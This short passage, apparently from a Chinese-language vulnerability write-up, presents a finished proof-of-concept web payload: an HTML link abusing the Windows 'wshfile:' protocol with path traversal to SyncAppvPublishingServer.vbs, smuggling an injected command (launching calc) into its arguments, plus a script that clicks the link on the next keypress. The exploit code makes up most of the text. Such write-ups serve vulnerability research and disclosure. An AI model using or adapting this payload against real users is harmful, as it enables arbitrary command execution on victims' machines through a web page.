最终构造的 PoC 如下：

	<a id="q" href='wshfile:test/../../WinSxS/AMD921~1.48_/SyncAppvPublishingServer.vbs" test test;calc;"'>test</a>
	<script>
	window.onkeydown=e=>{
		window.onkeydown=z={};
		q.click()
	}
	</script>

以及执行后触发的效果：

<div align="center">